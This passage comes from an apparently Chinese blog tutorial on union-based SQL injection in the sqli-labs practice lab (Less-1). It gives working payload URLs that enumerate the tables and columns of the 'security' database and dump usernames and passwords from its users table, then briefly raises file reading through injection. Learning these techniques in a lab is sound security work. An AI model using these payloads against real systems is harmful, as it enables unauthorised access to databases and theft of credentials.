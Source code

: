 


![](https://img-blog.csdnimg.cn/20181203200336271.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70) 当我们已知当前数据库名security，我们就可以通过下面的语句得到当前数据库的所有的表



```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='security' #
```




![](https://img-blog.csdnimg.cn/20181203200148384.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们知道了当前数据库中存在了四个表，那么我们可以通过下面的语句知道每一个表中的列



```
http://127.0.0.1/sqli/Less-1/?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='security' and table_name='users' #
```




如下，我们可以知道users表中有id，username，password三列



![](https://img-blog.csdnimg.cn/20181203201654448.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



我们知道存在users表，又知道表中有 id ，username， password三列，那么我们可以构造如下语句



```
http://127.0.0.1/sqli/Less-1/?id=-1'  union select 1,group_concat(id,'--',username,'--',password),3 from users #
```




我们就把users表中的所有数据都给爆出来了



![](https://img-blog.csdnimg.cn/20181203201813924.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



三：文件读写

------



*   当有显示列的时候，文件读可以利用 union 注入。

*   当没有显示列的时候，只能利用盲注进行数据读取。

